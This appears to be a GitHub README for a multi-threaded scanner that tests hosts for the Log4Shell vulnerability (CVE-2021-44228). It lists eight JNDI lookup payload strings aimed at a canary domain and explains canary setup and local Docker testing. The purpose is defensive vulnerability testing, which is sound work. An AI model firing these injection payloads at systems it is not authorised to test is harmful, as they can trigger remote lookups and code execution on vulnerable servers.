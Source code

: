 # log4j_CVE-2021-44228_tester
Test for the log4j vulnerability ( CVE-2021-44228 ) across your external footprint.

This is a very fast, multi-threaded, log4j vulnerability tester.

## Example Use
```
sudo ./log4j_CVE-2021-44228_tester.sh <INPUT_FILE> <CANARY_DOMAIN>
```
## Payloads
```
Payloads:
${jndi:ldap://<canary_domain>/a}
${jndi:ldaps://<canary_domain>/a}
${jndi:rmi://<canary_domain>/a}
${jndi:dns://<canary_domain>/a}
${jndi:corba://<canary_domain>/a}
${jndi:iiop://<canary_domain>/a}
${jndi:nis://<canary_domain>/a}
${jndi:nds://<canary_domain>/a}
```
## Methods
HTTP GET and HTTP POST are called on TCP 80/443 for each ip/domain provided in the input file

## Requirements
You will need:
1. An inputfile with a list of IP addresses/domains (one per line)
2. A Canary Token (see below)


## Get a Canary Domain 
1. Browse to https://canarytokens.org/generate#
2. Selection Option "DNS"
3. Input Email Address
4. Input Comment
5. Hit "Create my Canary Token"

<img width="973" alt="image" src="https://user-images.githubusercontent.com/774940/145664156-fee98504-0a18-427c-8213-5f3818864a9a.png">

## False Positives
If you use egress SSL decryption + inspection this script may trigger false positives (as your IDS may before lookups on the canary token.. thus triggering it).

If this is the case then you are better off running it from a cloud instance that is not being inspected.

## Local Testing
Spin up a docker image of a vulnerable server:
```
docker run --name vulnerable-app -p 555:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
 
Use the script to test locally:
```
echo "localhost:555" > ips.txt
./log4j_CVE-2021-44228_tester.sh ips.txt <canary_domain>
```




